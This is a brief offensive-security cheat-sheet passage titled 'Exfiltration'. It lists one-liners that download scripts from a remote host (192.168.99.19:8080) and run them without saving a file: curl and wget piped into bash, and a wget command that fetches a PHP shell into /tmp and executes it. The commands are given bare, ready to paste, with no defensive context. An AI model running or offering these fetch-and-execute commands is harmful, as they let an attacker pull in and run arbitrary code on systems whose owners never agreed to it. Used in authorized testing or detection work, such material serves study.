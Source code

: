 # Exfiltration

### Execute code without download files locally

```bash
#Curl
curl -fsSL http://192.168.99.19:8080/test.sh | bash
bash < <( curl http://192.168.99.19:8080/test.sh  )

#Wget
wget -q -O- http://192.168.99.19:8080/test.sh | bash
wget http://192.168.99.19:8080/shell.txt -O /tmp/x.php && php /tmp/x.php
```

